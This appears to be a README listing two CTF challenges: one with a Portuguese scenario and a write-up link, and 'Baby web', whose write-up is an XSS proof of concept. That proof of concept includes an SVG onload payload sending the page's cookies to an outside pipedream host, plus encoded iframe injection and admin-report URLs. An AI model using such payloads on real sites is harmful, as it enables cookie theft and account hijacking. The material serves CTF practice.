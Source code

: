 # Eflag

## Fresca Soda (csctf-2021)

**Description (portuguese):** Os cientistas da Igreja do Coletivo andam desconfiando que a Vought International mandou seus herois para descobrirem a formula secreta do seu sucesso internacional Fresca Soda.

Como retaliação, a Igreja pediu a voce que validasse a possibilidade de alguma atividade super estranha no sistema, e deixou claro: A cada dois segundos um de nossos administradores acessa o segredo da formula para garantir que ele esteja seguro.

**Solves:** 2

**First Blood:** -

**Write-up (portuguese):** https://0xten.gitbook.io/public/clearsale-ctf/2021/fresca-soda

## Baby web (lw-2021)

**Description:** pwn me

**Solves:** 2

**First Blood:** -

**Write-up:** 

```
// mydomain/POC.HTML
name='<svg/onload="top.document.location=`https://my.pipedream.net/?c=${top.document.cookie}`;">';
location = "http://challenge_addr/?name=%0074iframe+src=JAVASCRIPT:%26%23x70%3B%26%23x61%3B%26%23x72%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x6E%3B%26%23x61%3B%26%23x6D%3B%26%23x65%3B%3B%0076%0074/iframe%0076";

// challenge report to admin page:
http://challenge_addr/?report=%3Fname%3D%250074iframe%2Bsrc%3D%2F%2Fmydomain/POC.HTML%250076%250074%2Fiframe%250076
```

